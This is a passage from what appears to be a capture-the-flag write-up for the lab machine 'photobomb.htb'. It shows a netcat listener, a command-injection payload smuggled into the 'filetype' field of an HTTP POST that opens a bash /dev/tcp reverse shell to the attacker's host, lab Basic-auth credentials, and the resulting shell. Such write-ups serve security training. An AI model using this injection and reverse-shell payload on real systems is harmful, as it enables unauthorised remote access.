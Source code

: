 > Yes! The response takes more then 5 seconds.
{: .prompt-info }

## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80    
listening on [any] 80 ...
```

### trigger reverse shell
payload: `bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'`
```http
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 132
Cache-Control: max-age=0
Authorization: Basic cEgwdDA6YjBNYiE=
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Special-Dev: only4dev

photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=jpg$(bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/80+0>%261')&dimensions=30x30
```

### catch connect from target
```bash
$ nc -lvp 80    
listening on [any] 80 ...
connect to [10.10.14.7] from photobomb.htb [10.10.11.182] 45830
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ whoami
whoami
wizard
wizard@photobomb:~/photobomb$
```

> We got a shell!
{: .prompt-info }

---